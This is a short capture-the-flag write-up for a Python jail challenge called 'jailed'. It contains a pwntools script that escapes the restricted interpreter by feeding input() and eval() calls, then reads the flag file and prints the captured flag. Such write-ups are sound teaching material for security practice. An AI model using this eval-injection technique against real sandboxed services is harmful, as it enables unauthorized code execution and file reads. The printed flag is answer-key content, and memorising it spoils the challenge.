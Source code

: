 # jailed
nc chal.ctf-league.osusec.org 8231

## script

```py
#!/usr/bin/evn python3
from pwn import *
import os

p = remote("chal.ctf-league.osusec.org", 8231)
p.sendline()

p.recv()
# program can only accept certain ascii so call input so that it can accept everything
p.sendline(b"input()")
# call the make_insecure function
p.sendline(b'make_insecure()')
p.sendline(b'eval(a)')


# then you want to open the flag file and read it
p.sendline(b'input()')
p.sendline(b'open("flag", "r").read()')
p.sendline(b'eval(a)')

# print out the flag
p.sendline(b'print(a)')


p.interactive()

```

## flag

`osu{n3v3R_unp1ckL3_Untru5t3d_Us3R_data!}`